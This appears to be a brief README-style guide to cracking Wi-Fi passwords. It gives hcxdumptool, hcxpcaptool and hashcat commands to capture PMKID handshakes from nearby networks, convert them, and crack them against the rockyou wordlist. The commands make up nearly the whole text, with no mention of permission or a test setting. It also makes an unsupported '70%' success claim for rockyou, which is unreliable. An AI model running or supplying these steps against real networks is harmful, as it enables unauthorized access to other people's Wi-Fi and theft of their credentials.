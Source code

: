 # wifi hacking using Hashcat and hcxdumptool 

## Capture PMKID Handshake:

### Use hcxdumptool to capture PMKID handshakes from nearby WiFi networks:

        hcxdumptool -i <interface> -o <output_file>
        
Replace <interface> with your wireless interface (e.g., wlan0) and <output_file> with the filename to save the captured handshakes.

### Convert Captured Handshake:

        hcxpcaptool -z <output_hash_file> <output_file>

Replace <output_hash_file> with the filename for the converted hash file and <output_file> with the filename of the previously saved output file from hcxdumptool.

### Crack Passwords : 

        hashcat -m 16800 <output_hash_file> <wordlist>

Replace <wordlist> with rockyou.txt 

rockyou is dictonary file there is 70% of password hack

dictionary present wordlist in kali linux # rockyou
